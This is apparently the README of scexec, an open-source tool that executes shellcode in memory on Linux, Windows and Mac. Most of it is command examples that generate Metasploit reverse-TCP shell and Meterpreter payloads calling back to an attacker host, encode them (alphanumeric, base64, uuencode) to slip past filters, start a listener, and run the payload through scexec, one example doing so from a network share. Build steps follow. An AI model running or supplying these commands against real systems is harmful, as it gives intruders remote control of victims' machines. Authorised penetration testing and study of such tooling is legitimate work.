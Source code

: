 [![Build Status](https://travis-ci.org/kost/scexec.png)](https://travis-ci.org/kost/scexec)

scexec
======

Portable utility to execute in memory a sequence of opcodes

Features
========

- Linux/Windows/Mac support
- Visual C/C++, gcc, mingw32/mingw64 support
- Raw/Alphanumeric/Base64/UUdecode support
- Commandline argument/File support

Examples
========

## Linux target

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec <msfencode's alphanumeric-encoded payload>

## Windows target

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe <msfencode's alphanumeric-encoded payload>

## Windows target with base64

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/base64encode.pl
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe b <msfpayload-base64encoded-payload>

## Linux target with uudecode/uuencode

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/uuencode.pl
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec u <msfpayload-uuencoded-payload>

## Few more quick examples

Read and execute payload from filename msfpayloadfn.raw:

    C:\> scexec.exe f msfpayloadfn.raw

Read and execute base64 encoded payload from filename msfpayloadfn.base64:

    C:\> scexec.exe fb msfpayloadfn.base64

Read and execute uuencoded payload from share:

    C:\> \\192.168.1.1\\scexec.exe fu \\192.168.1.1\\msfpayload.uuencoded

Options explained
=================

Options can be combined:

no options - read alphanumeric shellcode from commandline

a - execute shellcode through call eax/rax

f - read shellcode from file

b - treat input shellcode as base64 encoded

u - treat input shellcode as uuencoded shellcode


Building
========

### Linux/Mac/POSIX builds

Just type:

    make

### Mingw builds:

32 bit:

    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=scexec32.exe

64 bit:

    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=scexec64.exe

### Visual Studio:

32 bit:

    nmake /f Makefile.vc

64 bit:

    nmake /f Makefile.v64

### Builds

    make CC=i386-mingw32-gcc STRIP=i386-mingw32-strip OUT=../bin/scexec-win32.exe
    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=../bin/scexec-win32c.exe
    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=../bin/scexec-win64.exe
    make CC=gcc STRIP=strip OUT=../bin/scexec-macosx-x64-dyn.bin
    make CC=armeb-linux-gcc STRIP=armeb-linux-strip CFLAGS=-static OUT=../bin/scexec-armeb-linux.bin
    make CC=arm-linux-gcc STRIP=arm-linux-strip CFLAGS=-static OUT=../bin/scexec-arm-linux-static.bin
    make CC=mips-linux-gcc STRIP=mips-linux-strip CFLAGS=-static OUT=../bin/scexec-mips-linux-static.bin
    make CC=mipsel-linux-gcc STRIP=mipsel-linux-strip CFLAGS=-static OUT=../bin/scexec-mipsel-linux-static.bin


Credits
=======

Vlatko Kosturjak

Based on Bernardo Damele A. G. shellcodeexecute

